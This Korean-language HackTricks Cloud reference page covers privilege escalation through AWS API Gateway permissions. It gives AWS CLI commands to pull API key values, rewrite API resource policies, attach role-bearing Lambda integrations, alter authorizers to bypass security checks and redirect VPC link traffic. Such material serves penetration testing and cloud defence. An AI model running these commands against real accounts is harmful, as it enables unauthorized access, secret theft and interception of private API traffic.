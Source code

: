 # AWS - Apigateway 권한 상승

{% hint style="success" %}
AWS 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하세요.

</details>
{% endhint %}

## Apigateway

더 많은 정보를 확인하려면:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

이 권한으로 구성된 API의 API 키를 생성할 수 있습니다 (지역별).
```bash
aws --region <region> apigateway create-api-key
```
**잠재적 영향:** 이 기술로 권한 상승은 불가능하지만 민감한 정보에 액세스할 수 있습니다.

### `apigateway:GET`

이 권한을 통해 구성된 API의 생성된 API 키를 가져올 수 있습니다 (지역별).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**잠재적 영향:** 이 기술로 권한 상승은 불가능하지만 민감한 정보에 액세스할 수 있습니다.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

이러한 권한을 가지고 있으면 API의 리소스 정책을 수정하여 자신에게 호출 권한을 부여하고 API 게이트웨이가 가질 수 있는 악용 가능한 액세스를 악용할 수 있습니다 (취약한 람다를 호출하는 것과 같은).
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**잠재적인 영향:** 일반적으로 이 기술로 직접 권한 상승(privesc)을 할 수는 없지만 민감한 정보에 접근할 수 있습니다.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment`, 그리고 `iam:PassRole` 권한을 가진 공격자는 **IAM 역할이 연결된 람다 함수를 사용하여 기존 API Gateway REST API에 새 통합을 추가**할 수 있습니다. 공격자는 그런 다음 **람다 함수를 트리거하여 임의의 코드를 실행하고 IAM 역할과 관련된 리소스에 액세스할 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적인 영향**: 람다 함수의 IAM 역할과 관련된 리소스에 액세스할 수 있습니다.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:UpdateAuthorizer` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 인증자를 수정**하여 보안 검사를 우회하거나 API 요청 시 임의의 코드를 실행할 수 있습니다.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적인 영향**: 보안 점검 우회, API 리소스에 대한 무단 액세스.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:UpdateVpcLink` 권한을 가진 공격자는 **기존 VPC 링크를 수정하여 다른 네트워크 로드 밸런서를 가리키도록 할 수 있으며, 이로 인해 개인 API 트래픽이 무단 또는 악의적인 리소스로 리디렉션될 수 있습니다**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**잠재적 영향**: 비인가된 접근으로 인한 개인 API 리소스 접근, API 트래픽의 가로채기 또는 방해.

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
{% endhint %}

